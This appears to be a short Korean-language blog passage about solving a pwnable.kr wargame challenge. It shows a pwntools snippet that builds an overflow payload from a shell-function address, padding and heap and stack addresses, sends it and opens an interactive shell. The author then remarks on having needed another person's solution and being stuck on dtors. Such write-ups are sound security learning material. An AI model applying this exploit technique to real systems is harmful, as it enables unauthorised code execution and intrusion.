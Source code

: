 ```python
payload = p32(0x80484eb) # address of shell
payload += 'a'*12
payload += p32(heapAddr + 12)
payload += p32(stackAddr + 16)

s.sendlineafter('get shell!\n', payload)
s.interactive()
```

풀기는 풀었는데 결국 다른 사람의 해답을 참고했어야 했어서 아쉽다.  
괜히 dtors에 사로잡혀서 안되는걸 붙들고 있었다.  
역시 이 분야는 진입장벽이 높은것 같다.  


[pwnable.kr]: https://pwnable.kr

